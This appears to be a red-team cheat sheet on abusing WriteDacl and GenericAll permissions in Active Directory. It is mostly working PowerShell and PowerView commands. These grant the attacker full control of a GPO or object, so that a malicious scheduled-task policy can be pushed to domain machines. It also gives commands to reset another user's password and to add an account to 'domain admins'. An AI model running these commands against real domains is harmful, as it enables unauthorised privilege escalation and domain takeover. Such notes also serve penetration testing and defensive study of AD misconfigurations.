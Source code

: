 # WriteDacl

To abuse WriteDacl to a GPO object, you may grant yourself the GenericAll privilege.

You may need to authenticate to the Domain Controller as ANIRUDH@VAULT.OFFSEC if you are not running a process as that user. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

```powershell
$SecPassword = ConvertTo-SecureString 'passwords' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$domain\user', $SecPassword)
```

Then, use Add-DomainObjectAcl, optionally specifying `$Cred` if you are not already running a process as `$user`:

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity TestGPO -Rights All
```

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute the new evil policy. See the references tab for a more detailed write up on this abuse. 

Cleanup can be done using the Remove-DomainObjectAcl function:

```powershell
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity TestGPO -Rights All
```

[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) - similarly requires Powerview

If owner of a group:
```powershell
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

Give self GenericAll
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Add new users to the group
```powershell
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```

Reset a password with GenericAll on a User
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
# Reset delegate account password
net user delegate delegate /domain
```

Or Join a group
```powershell
net group "domain admins" spotless /add /domain
```

## References

[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) 
[Bloodhound.py](https://github.com/fox-it/BloodHound.py)
